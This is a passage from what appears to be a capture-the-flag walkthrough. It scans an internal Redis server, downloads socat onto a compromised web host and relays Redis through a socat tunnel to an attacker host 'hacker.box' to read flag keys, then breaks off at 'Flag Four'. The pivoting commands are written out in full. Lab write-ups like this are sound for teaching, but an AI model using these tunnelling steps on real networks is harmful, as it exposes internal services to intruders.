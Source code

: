 ```
nmap -sV 192.168.0.3 -p1-65535
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-29 20:55 UTC
Nmap scan report for redis-server.internal (192.168.0.3)
Host is up (0.00020s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.47 seconds
```

Hello, Redis.

```
redis-cli -h 192.168.0.3 -p 6379 ping
PONG
```

OK let's tunnel to redis through some plumbing * *cue Mario music* *

```
cd /var/www/html
curl -o /tmp/socat https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat
```

```
socat -v TCP-LISTEN:6667,fork TCP-LISTEN:7778,fork # My server 
./socat -v TCP-CONNECT:hacker.box:6667,fork TCP-CONNECT:192.168.0.3:6379 2>&1 &# Popped box
```
```
redis-cli -h hacker.box -p 7778 ping #run from my laptop
PONG
```

Nice. Now we can interact.

```
redis-cli -h hacker.box -p 7778

hacker.box:7778> KEYS *
1) "flag3"
2) "notes"

hacker.box:7778> GET flag3
"SP-d5d8f27b7d7ddb7c925ad6b74a40b7e5"

hacker.box:7778> GET notes
"Whoops-This-Server-Was-A-Mistake!-Thats-all-there-is-here-the-last-flag-is-behind-you"
```

------------------------------------------------------

## Flag Four:
